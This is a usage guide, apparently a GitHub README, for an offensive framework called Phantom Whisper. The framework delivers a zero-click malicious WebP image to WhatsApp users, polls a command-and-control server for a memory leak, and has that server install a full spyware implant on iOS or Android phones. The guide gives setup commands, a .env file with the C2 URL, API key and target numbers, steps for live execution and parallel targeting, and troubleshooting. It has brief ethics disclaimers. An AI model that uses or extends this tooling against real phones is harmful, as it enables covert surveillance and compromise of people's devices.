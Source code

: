# Phantom Whisper — Step‑by‑Step Usage Guide

*A zero‑to‑green‑check walkthrough*

> \*\*Ethics First 🚨  \*\*Deploy **only** against devices you own **or** have **written consent** to test. You are fully responsible for legality & ethics.

---

## ✨ What is Phantom Whisper?

A Python 3 framework that

1. **Delivers** a prepared WebP zero‑click payload to WhatsApp targets.
2. **Polls** your C2 for an ASLR leak proving initial compromise.
3. **Triggers** download/execute of a full implant (iOS or Android).
4. **Logs** every step to JSON‑lines for audit‑grade traceability.

The code is single‑host & sequential today, but architected for multi‑threaded scale tomorrow.

---

\## 1  Prerequisites

| Requirement                 | Why                                                                | Quick Check                      |
| --------------------------- | ------------------------------------------------------------------ | -------------------------------- |
| **Python 3.9+**             | Modern typing, `pydantic‑settings`, f‑strings                      | `python3 --version`              |
| `virtualenv` / `pyenv`      | Isolate project dependencies                                       | *(strongly recommended)*         |
| **Git + GCC/Clang**         | Clone repo & compile any C‑backed wheels                           | `git --version`, `gcc --version` |
| Out‑of‑scope test device(s) | **Only for ethical testing**—never target without explicit consent | Verify IMEI / device ID          |

> 💡 *A C compiler is usually **optional**—all current wheels are pre‑built.*

---

\## 2  Clone & Install

```bash
# 2.1 Clone the repository
$ git clone https://github.com/<you>/phantom_whisper.git
$ cd phantom_whisper

# 2.2 Create & activate a virtual environment
$ python3 -m venv .venv
$ source .venv/bin/activate       # Windows: .venv\Scripts\activate

# 2.3 Install runtime dependencies
$ pip install -r requirements.txt
```

---

\## 3  Configure Environment

Create a file named **`.env`** *in the project root*:

```dotenv
# Required
C2_API_KEY=REPLACE_ME

# Optional overrides
C2_SERVER_BASE_URL=https://c2.example.com
TARGET_WHATSAPP_IDS="+15551234567,+447911123456"
OS_TYPE=android                # ios (default) | android
```

The `Settings` model (see `config.py`) automatically ingests these at runtime.

---

\## 4  Payload & Target Prep

1. **Payload** – place your malicious WebP at **`payloads/malicious_webp.bin`**.
2. **Targets** – supply IDs via `TARGET_WHATSAPP_IDS` **or** edit the default list in `config.py`.

---

\## 5  Smoke Test (Dry‑Run)

```bash
$ python -m phantom_whisper.orchestrator
```

*Expect:*

* Console output in plain text.
* `logs/phantom_whisper.log` containing structured JSON lines.
* **Zero** outbound C2 traffic unless your `.env` is fully populated.

---

\## 6  Live Execution ⚠️

> **Ensure you have legal authority & written permission before proceeding.**

```bash
# Verify C2 reachability, VPN/lab network, etc.
$ python -m phantom_whisper.orchestrator
```

\### Execution Flow (per target)

1. **Init clients** `C2Client` + `WhatsAppTransport` (per‑target context).
2. **Send payload** Zero‑click WebP delivery.
3. **Poll for leak** Exponential back‑off until ASLR address received.
4. **Deploy implant** Command C2 to push the full binary.

| Exit Code | Meaning                           |
| --------- | --------------------------------- |
|  `0`      | All targets succeeded             |
|  `N > 0`  |  `N` targets failed orchestration |

---

\## 7  Logging & Telemetry

| Channel | Location                     | Format        |
| ------- | ---------------------------- | ------------- |
| Console | STDOUT                       | Plain text    |
| File    | `./logs/phantom_whisper.log` | JSON‑per‑line |

Each entry contains: `timestamp`, `session_id`, `payload_hash`, `target_id`, log level, and message.

> **Tip:** Ship the log file to ELK, Splunk, or simply `jq` for ad‑hoc forensics.

---

\## 8  Parallel Mode (Optional)

Uncomment the `ThreadPoolExecutor` block in `orchestrator.py` and set `MAX_WORKERS` in your `.env`.

---

\## 9  Cleanup

```bash
$ deactivate                        # leave venv
$ rm -rf .venv logs/*.log           # nuke env & logs
```

---

\## 10  Troubleshooting

| Symptom                        | Likely Cause                               | Remedy                                                       |
| ------------------------------ | ------------------------------------------ | ------------------------------------------------------------ |
| `ConnectionError`              | Bad C2 URL / network issues                | Verify `C2_SERVER_BASE_URL`, VPN, firewall                   |
| `PayloadError`                 | Missing WebP file                          | Check `payloads/malicious_webp.bin` path                     |
| `C2ResponseSchemaError`        | C2 JSON doesn’t match expected schema      | Update C2 server or adjust client                            |
| Exit code > 0                  | Target orchestration failures              | Inspect `phantom_whisper.log` `ERROR` entries                |
| `AttributeError` / `NameError` | Missing dependency or wrong Python version | Re‑run `pip install -r requirements.txt`; ensure Python 3.9+ |

---

\### 💡 Next Steps

* **Real WhatsApp transport** – replace simulator.
* **CLI flags** – for headless operation & overrides.
* **PyInstaller bundle** – single‑file distribution.
* **gRPC‑based C2** – flexible backend protocol.

PRs welcome 🙂

---

\## License
Internal proof‑of‑concept — no public license. Contact the author for usage terms.

---

**Happy hunting & stay ethical!**

